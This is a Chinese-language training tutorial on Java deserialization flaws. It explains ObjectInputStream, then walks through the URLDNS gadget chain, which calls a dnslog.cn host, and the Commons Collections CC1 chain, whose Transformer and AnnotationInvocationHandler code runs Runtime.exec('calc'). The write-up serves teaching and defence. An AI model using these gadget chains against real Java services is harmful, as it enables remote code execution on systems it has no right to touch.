







# 反序列化漏洞详解

### 反序列化漏洞简介

许多编程语言都提供对序列化的内在支持

- PHP将对象序列化为字符串格式



- Java将对象序列化为二进制格式

**Java中的API实现：**

位置：java.objectOuputStream   java.io.ObjectInputStream

**序列化** ：objectOutputStream类 -->writeObject()

该方法对参数指定的obj对象进行序列化，对字节序列写到一个目标输出流中。按JAVA的标准约定是给文件一个.ser扩展名

**反序列化**: objectInputStream类–>readObject()

该方法从一个源输入流中读取字节序列，在·把他们反序列化为一个对象，并将其返回。

#### 漏洞源起

2015年1月份,国外安全研究人员 Gabriel Lawrence 和 Chris Frohoff 公布了一个影响范围相当广的 Apache Commons 工具集远程代码执行(RCE)漏洞。由于 Apache Commons 工集几乎是 Java 技术平台中应用的最广泛的工具库,因此影响几乎遍及整个 Java 阵营。

同年11月份，FoxGlove Security 安全团队发布的一篇博客中提到 Java 反序列化漏洞，该漏洞可攻击最新版的 WebLogic、WebSphere、JBoss、Jenkins、OpenNMS 应用，能实现远程任意代码执行。且在漏洞被发现的 9 个月后依然没有有效的 Java 库补丁来针对受到影响的产品进行加固。

有很多经典案例 如

- Apache Commons Collections序列化RCE漏洞
- Spring框架反序列化漏洞
- Fastjson反序列化漏洞
- Apache Shiro Java 反序列化漏洞

#### 漏洞影响主要产品

机器上一旦有这些应用，即处于“裸奔”状态。黑客可随时利用此漏洞执行任意系统命令，完全获取机器的控制权限，破坏或窃取机器上的数据。


**序列化：**将对象的状态信息转换为可以存储或传输的形式的过程（将 Java 对象转换成字节流的过程）。

**反序列化：**就是将序列化后的字节序列还原为原本的对象的过程。

**序列化与反序列化的目的：**在序列化期间，对象将其当前状态写入到临时或持久性存储区。以后可以通过从存储区中读取或反序列化对象的状态，重新创建该对象。(将对象转换为字节序列，通常用在跨语言、跨平台、网络传输、存储以及进程间传递对象，最重要的作用就是在传递和保存对象时，保证对象的完整性和可传递性)



### Java反序列化原理

#### 序列化

序列化：在java中实现序列化需要实现了`java.io.Serializable`或者`java.io.Externalizable`接口的类的对象，当且仅当对象的类实现上面两个对象时，该对象才有资格进行序列化。

`Externalizable` 接口继承自 `Serializable` 接口，实现` Externalizable `接口的类完全由自身来控制序列化的行为，而仅实现 `Serializable` 接口的类可以采用默认的序列化方式。

然而真正的序列化动作不需要靠`Serializable`完成，它只是一个标记接口(Marker Interface)，不包含任何方法，该接口告诉Java虚拟机(JVM)该类的对象已准备好写入持久性存储或通过网络进行读取。



例如想要对Person类进行序列化和反序列化操作：

```java
package com.hillstonenet;

import java.io.Serializable;

class Person implements Serializable {
    public String name;
    public int age;
    Person(String name,int age){
        this.name = name;
        this.age = age;
    }
}
```

```

```

```java
package com.hillstonenet;

import java.io.*;
import java.lang.reflect.InvocationTargetException;
public class Main {
    public static void main(String []args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
        FileOutputStream out =new FileOutputStream("person.txt");
        ObjectOutputStream obj_out = new ObjectOutputStream(out);
        obj_out.writeObject(new Person("z3",12));
    }
}
```

`FileOutputStream`和`ObjectOutputStream`是java的流操作，可以把`OutputStream`当做一个单向流出的水管，`FileOutputStream`打开了文件，就相当于给文件接了一个`File`类型水管，然后把`FileOutputStream`类型对象传给了`ObjectOutputStream`，相当于把`File`类型水管接到了Object类型水管。由于`Object`类是所有类的父类，所以`Object`类型水管可以投放任何对象。

这里创建了`Person`对象并传给`writeObject`方法，相当于把`Person`对象扔进了`Object`类型水管，这样就把`Person`对象写入了文件。

```
Person对象->Object类型水管->File类型水管->文件
```

如果我想把序列化对象写入byte数组，那就创建个`byteArrayOutputStream`类型水管，然后把它接到`Object`类型水管上，后面步骤不变，则：

```
Person对象->Object类型水管->byte类型水管->byte数组
```


**查看序列化后的内容:**

```
java -jar SerializationDumper-v1.13.jar -r person.out
```






#### 反序列化

把`Output`换为了`Input`，把`writeObject`换为了`readObject`。

```java
package com.hillstonenet;

import java.io.*;
import java.lang.reflect.InvocationTargetException;

public class Main {
    public static void main(String []args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
        FileOutputStream out =new FileOutputStream("person.out");
        ObjectOutputStream obj_out = new ObjectOutputStream(out);
        obj_out.writeObject(new Person("z3",12));

        FileInputStream in =new FileInputStream("person.out");
        ObjectInput obj_in = new ObjectInputStream(in);
        Person p = (Person) obj_in.readObject();
        System.out.println(p.name);
    }
}
```

把单向流出的水管换为单向流入的（`Output`换为`Input`），然后把写入数据的`writeObject`换为`readObject`，即：

```
序列化数据person.txt->File类型水管->Object类型水管->Object对象
```


（Person）这个用法是强制类型转换，将Object转Person类型，

如果我们在`Person`类中重写`readObject`，那么在反序列化`obj_in.readObject()`中会自动重写自己的`readObject()`方法导致命令的执行，**命令执行反序列化的最终目的其实就是重写`readObject()`方法。**

```java
    private void readObject(ObjectInputStream a) throws IOException, ClassNotFoundException {
        a.defaultReadObject();
        Runtime.getRuntime().exec("calc");
    }
```

其中的`defaultReadObject`是为了保证反序列化正常执行的，因为如果被重写了也就意味着对象不会被解析，加上这个方法对象就可以被解析，如果不写输出时候对象的内容会为空。




#### 特点/应用场景

- 常用与服务器之间的数据传输,序列化成文件,反序列化读取数据
- 常用使用套接字流在主机之间传递对象
- 需要序列化的文件必须实现Serializable接口,用来启用序列化功能
- 在反序列化时,如果和序列化的版本号不一致,无法完成反序列化

补充

- 不需要序列化的数据可以修饰成static,原因:static资源属于类资源,不随着对象被序列化输出

- 不需要序列化的数据也可以被修饰成transient(临时的),只在程序运行期间在内存中存在,不会被序列化持久保存

- 每一个被序列化的文件都有一个唯一的id,如果没有添加此id,编译器会自动根据类的定义信息计算产生一个

- 读写顺序一致

- 内部属性的类型也需要实现 Serializable 接口

- 具有继承性,父类可以序列化那么子类同样可以（递归）

  

### Java反序列化漏洞利用链条分析

#### URLDNS链

```java
package com.hillstonenet;

import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        HashMap<URL, Integer> hash = new HashMap<URL,Integer>();
        URL url = new URL("http://esnir1.dnslog.cn");
        //先反射获取URL类中的hashcode属性
        Class c = Class.forName("java.net.URL");
        Field hashCode = c.getDeclaredField("hashCode"); // java.net.URLStreamHandler类中的hashcode为protected的访问修饰符，就需要用getDeclaredField
        hashCode.setAccessible(true); // 修改访问权限为pubilc
        hashCode.set(url,123); //修改url的hashcode不是-1，这样才会去序列化得到payload
        hash.put(url,1); // 得到要准备序列化的对象hash
        hashCode.set(url,-1); //修改回来，防止反序列化时候不往下执行
        Serialize(hash);
        Unserialize();
    }
    public static void Serialize(Object obj) throws IOException {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("1.txt"));
        out.writeObject(obj);
        out.close();
    }
    public static void Unserialize() throws IOException, ClassNotFoundException {
        ObjectInputStream In = new ObjectInputStream(new FileInputStream("1.txt"));
        Object obj= In.readObject();
    }

}
```

也可以查看下序列化后的1.txt

```
PS D:\hillstone\A&DLab\实验室培训\攻防实验室培训_反序列化_宋晓萌\SerializableDemo> java -jar .\SerializationDumper-v1.13.jar -r 1.txt     

STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 17 - 0x00 11
        Value - java.util.HashMap - 0x6a6176612e7574696c2e486173684d6170
      serialVersionUID - 0x05 07 da c1 c3 16 60 d1
      newHandle 0x00 7e 00 00
      classDescFlags - 0x03 - SC_WRITE_METHOD | SC_SERIALIZABLE
      fieldCount - 2 - 0x00 02
      Fields
        0:
          Float - F - 0x46
          fieldName
            Length - 10 - 0x00 0a
            Value - loadFactor - 0x6c6f6164466163746f72
        1:
          Int - I - 0x49
          fieldName
            Length - 9 - 0x00 09
            Value - threshold - 0x7468726573686f6c64
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 01
    classdata
      java.util.HashMap
        values
          loadFactor
            (float)1.06115891E9 - 0x3f 40 00 00
          threshold
            (int)12 - 0x00 00 00 0c
        objectAnnotation
          TC_BLOCKDATA - 0x77
            Length - 8 - 0x08
            Contents - 0x0000001000000001
          TC_OBJECT - 0x73
            TC_CLASSDESC - 0x72
              className
                Length - 12 - 0x00 0c
                Value - java.net.URL - 0x6a6176612e6e65742e55524c
              serialVersionUID - 0x96 25 37 36 1a fc e4 72
              newHandle 0x00 7e 00 02
              classDescFlags - 0x03 - SC_WRITE_METHOD | SC_SERIALIZABLE
              fieldCount - 7 - 0x00 07
              Fields
                0:
                  Int - I - 0x49
                  fieldName
                    Length - 8 - 0x00 08
                    Value - hashCode - 0x68617368436f6465
                1:
                  Int - I - 0x49
                  fieldName
                    Length - 4 - 0x00 04
                    Value - port - 0x706f7274
                2:
                  Object - L - 0x4c
                  fieldName
                    Length - 9 - 0x00 09
                    Value - authority - 0x617574686f72697479
                  className1
                    TC_STRING - 0x74
                      newHandle 0x00 7e 00 03
                      Length - 18 - 0x00 12
                      Value - Ljava/lang/String; - 0x4c6a6176612f6c616e672f537472696e673b
                3:
                  Object - L - 0x4c
                  fieldName
                    Length - 4 - 0x00 04
                    Value - file - 0x66696c65
                  className1
                    TC_REFERENCE - 0x71
                      Handle - 8257539 - 0x00 7e 00 03
                4:
                  Object - L - 0x4c
                  fieldName
                    Length - 4 - 0x00 04
                    Value - host - 0x686f7374
                  className1
                    TC_REFERENCE - 0x71
                      Handle - 8257539 - 0x00 7e 00 03
                5:
                  Object - L - 0x4c
                  fieldName
                    Length - 8 - 0x00 08
                    Value - protocol - 0x70726f746f636f6c
                  className1
                    TC_REFERENCE - 0x71
                      Handle - 8257539 - 0x00 7e 00 03
                6:
                  Object - L - 0x4c
                  fieldName
                    Length - 3 - 0x00 03
                    Value - ref - 0x726566
                  className1
                    TC_REFERENCE - 0x71
                      Handle - 8257539 - 0x00 7e 00 03
              classAnnotations
                TC_ENDBLOCKDATA - 0x78
              superClassDesc
                TC_NULL - 0x70
            newHandle 0x00 7e 00 04
            classdata
              java.net.URL
                values
                  hashCode
                    (int)2133919961 - 0x7f 31 08 d9
                  port
                    (int)-1 - 0xff ff ff ff
                  authority
                    (object)
                      TC_STRING - 0x74
                        newHandle 0x00 7e 00 05
                        Length - 16 - 0x00 10
                        Value - 0ga8y4.dnslog.cn - 0x3067613879342e646e736c6f672e636e
                  file
                    (object)
                      TC_STRING - 0x74
                        newHandle 0x00 7e 00 06
                        Length - 0 - 0x00 00
                        Value -  - 0x
                  host
                    (object)
                      TC_REFERENCE - 0x71
                        Handle - 8257541 - 0x00 7e 00 05
                    TC_NULL - 0x70
            newHandle 0x00 7e 00 0a
            classdata
              java.lang.Number
                values
              java.lang.Integer
                values
                  value
                    (int)1 - 0x00 00 00 01
          TC_ENDBLOCKDATA - 0x78
```

**总结URLDNS链：**

```
HashMap.readObject()-> HashMap.putVul->HashMap.hash()->URLStreamHandler.hashcode().getHostAddress->URLStreamHandler().hashCode().getAddressHost->getByName()
```

#### CCI链

Apache Commons Collections是一个扩展了Java标准库里的Collection结构的第三方基础库，它提供了很多强大的数据结构类型和实现了各种集合工具类。作为Apache开放项目的重要组件，Commons Collections被广泛的各种Java应用的开发。commons-collections组件反序列化漏洞的反射链也称为CC链，自从apache commons-collections组件爆出第一个Java反序列化漏洞后，就像打开了Java安全的新世界大门一样，之后很多Java中间件相继都爆出反序列化漏洞。

CC1链有两条一条是`Transform`链另一条是`LazyMap`链。


首先明确要实现的目标是：

```java
Runtime.getRuntime().exec("calc");
```

因此首先要获得Runtime

```java
Class c = Runtime.class;
```

为什么不用 Runtime.getRuntime() 换成了 Runtime.class ？

前者是一个java.lang.Runtime 对象，后者是一个 java.lang.Class 对象。Class类有实现Serializable接口，所以可以被序列化。

ConstantTransformer可以传一个Runtime类进去，当被遍历时调用transform方法可以返回一个Runtime类，正好作为下一个Transformer的transform方法中的参数。因此Transformer数组第一个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class)
}
```

下一步需要调用getRuntime，它是Runtime里面的方法，前面已经传了Runtime.class，要获取该方法显然只能通过反射，而InvokerTransformer中的transform方法刚好提供了这个功能。

正常反射使用方法

```java
Method f = Runtime.class.getMethod("getRuntime"); 
Runtime r = (Runtime) f.invoke(null);  //获取runtime对象
r.exec("calc"); //调用exec
```

现在已经有了Runtime类，那么考虑传一个getMethod进去，然后通过反射让Runtime类调用getMethod方法，参数即为getRuntime，因此第二个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), //返回Runtime类 
  
  new InvokerTransformer("getMethod",			//反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]})
}
```

然后需要调用invoke方法，因此传invoke进去，第三个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), 
  
  new InvokerTransformer("getMethod",
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]}),
  
  new InvokerTransformer("invoke", //调用invoke方法
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]})
}
```

最后调用exec方法，因此传exec进去，参数是命令，第四个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), 
  
  new InvokerTransformer("getMethod",
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]}),
  
  new InvokerTransformer("invoke",
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]}),
  
  new InvokerTransformer("exec", //调用exec方法
    new Class[]{String.class},
    new Object[]{"calc"})
};
```

把Transformer[]传给ChainedTransformer

```java
Transformer transformerChain = new ChainedTransformer(transformers);
```

TransformedMap是实现了Serializable的类，构造函数接收map，key，value。key，value都是Transformer。

把transformerChain传给TransformedMap.decorate，造出一个TransformedMap对象存在tmap中

```java
Map map = new HashMap();
map.put("value", "Roderick");
Map tmap = TransformedMap.decorate(map, null, transformerChain);
```

反射获取`sun.reflect.annotation.AnnotationInvocationHandler` ，获取实例传入tamp，反序列化的过程就会调用tamp.setValue

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Retention.class, tmap);
```

我们查看它的`readObject`方法（8u71以后做了一些修改）

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Map.Entry var5 = (Map.Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
```

核心逻辑就是 `Iterator var4 = this.memberValues.entrySet().iterator();` 和` var5.setValue(...)`

memberValues就是反序列化后得到的Map，也是经过了TransformedMap修饰的对象，这里遍历了它的所有元素，并依次设置值。在调用setValue设置值的时候就会触发TransformedMap里注册的 Transform，进而执行我们为其精心设计的任意代码。

所以，我们构造POC的时候，就需要创建一个`AnnotationInvocationHandler`对象，并将前面构造的`HashMap`设置进来

```java
Class cls =Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
Object obj = construct.newInstance(Retention.class, outerMap);
```

这里因为`sun.reflect.annotation.AnnotationInvocationHandler`是在JDK内部的类，不能直接使用new来实例化。可以使用反射获取它的构造方法，并将其设置成外部可见的，再调用就可以实例化了。`AnnotationInvocationHandler`类的构造函数有两个参数，第一个参数是一个`Annotation`类；第二个是参数就是前面构造的`Map`

在 `AnnotationInvocationHandler#readObject` 的逻辑中，有一个if语句对var7进行判断，只有在其不是`null`的时候才会进入里面执行`setValue`，否则不会进入也就不会触发漏洞。

那么如何让这个var7不为null呢？两个条件

1. `sun.reflect.annotation.AnnotationInvocationHandler`构造函数的第一个参数必须是 `Annotation`的子类，且其中必须含有至少一个方法，假设方法名是X
2. 被`TransformedMap.decorate`修饰的Map中必须有一个键名为`X`的元素

所以，这也就是前面用到`Retention.class`的原因，因为Retention有一个方法，名为`value`；所以，为了再满足第二个条件，需要给Map中放入一个Key是`value`的元素：

```java
Map.put("value", "xxxx");
```
若不设置为value



```
寻找链的思路：
InvokerTransformer.transform是执行命令的关键，找的思路就是找哪里调用了transform，对应的方法又在哪被调用，最后直至找到readObject里调用的方法。

AnnotationInvocationHandler.readObject()->TransformedMap.checkSetValue()->ChainedTransformer->InvokerTransformer->Runtime.exec
```

